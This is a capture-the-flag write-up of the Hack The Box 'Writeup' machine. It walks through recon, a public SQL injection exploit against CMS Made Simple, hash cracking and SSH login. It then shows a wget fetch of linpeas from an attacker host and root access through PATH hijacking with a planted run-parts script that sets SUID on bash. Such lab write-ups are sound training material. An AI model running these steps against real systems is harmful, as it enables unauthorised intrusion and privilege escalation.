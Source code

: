 ```yaml
---
title: "Writeup"
date: 2025-08-12 14:10:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, SQLi, pspy, Path Hijacking, SUID]
---
```


## Reconnaissance

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN writeup 10.10.10.138
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-12 14:14 PKT
Nmap scan report for 10.10.10.138
Host is up (0.090s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
| http-robots.txt: 1 disallowed entry 
|_/writeup/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.61 seconds
```

### Web Enumeration

Let's interact with the web server on port 80. 

![alt text](/assets/images/writeup-web.png)

From nmap scan, we can see there is a robots.txt file that disallows access to `/writeup/`. Let's check it out.

There are 3 writeups available. They are fetched with the query: `http://10.10.10.138/writeup/index.php?page=ypuffy`

On viewing the page source of `/writeup/index.php`, we see:

```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

#### Version Detection

CMS Made Simple 2019 was used. From CMS Made Simple website: [Website](https://www.cmsmadesimple.org/downloads/cmsms)
we can try to understand the structure of the CMS and how it works. Also during my search I came across an SQLi.

[SQLi CMS Made Simple](https://www.exploit-db.com/exploits/46635)

If we go to [CMS Made Simple](http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/)http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/
we can understand the structure of CMS. 

![alt text](/assets/images/writeup-cms.png)

We can confirm the existence of admin directory. But it requires auth. `http://10.10.10.138/writeup/admin`

If we go to: `http://10.10.10.138/writeup/doc/CHANGELOG.txt` we can confirm the version.

CMS Made Simple - Version 2.2.9.1

### Exploitation

The exploit we came across supports this version.

[Exploit](https://www.exploit-db.com/exploits/46635)

The script requires Python2, pip2 (for module termcolor). Wait once the script starts running.

```bash
python2 exploit.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807lp
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43z
```

However, the password is not in correct MD5 format. It is not 32 characters long. We will run the script a few more times. Now we have a different salt and password. After running the script for the 3rd time we get:

![alt text](/assets/images/writeup-password.png)

### Hashcat

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807`

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9`

## Foothold

### SSH

Let's try SSH. 

```bash
ssh jkr@10.10.10.138   
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ED25519) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ 
```

We don't have curl on the victim machine to transfer linpeas. 

### wget

Let's use wget to download linpeas.

```bash
wget http://10.10.16.30/linpeas.sh
--2025-08-12 06:48:07--  http://10.10.16.30/linpeas.sh
Connecting to 10.10.16.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                          100%[=================================================================================================================>] 933.76K   839KB/s    in 1.1s    

2025-08-12 06:48:09 (839 KB/s) - ‘linpeas.sh’ saved [956174/956174]
```

LinPEAS didn't get us much information.

```bash

jkr@writeup:~$ ss -tulnp
Netid  State      Recv-Q Send-Q                                                       Local Address:Port                                                                      Peer Address:Port              
udp    UNCONN     0      0                                                                        *:68                                                                                   *:*                  
tcp    LISTEN     0      128                                                                      *:22                                                                                   *:*                  
tcp    LISTEN     0      80                                                               127.0.0.1:3306                                                                                 *:*                  
tcp    LISTEN     0      128                                                                     :::22                                                                                  :::*                  
tcp    LISTEN     0      511                                                                     :::80                                                                                  :::*
```

Let's enumerate MySQL. Our current user can't access mySQL. From LinPEAS I also observed that the current user is in a unique group. 

## Privilege Escalation

```bash
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

Let's check what the staff group does on debian. 

From: [SystemGroups](https://wiki.debian.org/SystemGroups)

staff: Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.

Basically if we are able to find any binary that runs without calling it's absolute path and is located inside `/usr/bin` we can override that binary to either add a root user, create an ssh key for root user, or set suid on bash.

Transfer pspy, run it. SSH as jkr again and check if any process runs without calling the absolute path.

```bash
2025/08/12 07:20:28 CMD: UID=0     PID=1      | init [2]   
2025/08/12 07:20:58 CMD: UID=0     PID=20873  | sshd: [accepted] 
2025/08/12 07:20:58 CMD: UID=0     PID=20874  | sshd: [accepted]  
2025/08/12 07:21:01 CMD: UID=0     PID=20875  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20876  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20877  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2025/08/12 07:21:12 CMD: UID=0     PID=20878  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20879  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20880  | run-parts --lsbsysinit /etc/update-motd.d 
2025/08/12 07:21:12 CMD: UID=0     PID=20881  | uname -rnsom 
2025/08/12 07:21:12 CMD: UID=0     PID=20882  | sshd: jkr [priv]
```

`run-parts` and `uname` are two binaries that run without calling their absolute path. We can override either. 

I tried the SSH path and adding a user path however, they both didn't seem to work.

This is the run-parts binary under `/usr/local/bin`:

```bash
#!/bin/bash

touch /tmp/test
mkdir ~/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyrUNppv/urjkY2LsG9OPcV/WcMOUjXFsEQiYpNnt+t root@vm-kali'
>> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

I then went for setting an SUID on bash:

```bash
jkr@writeup:~$ touch /usr/local/bin/run-parts
jkr@writeup:~$ echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
jkr@writeup:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
```

To trigger the run-parts binary be sure to SSH as jkr again.

---
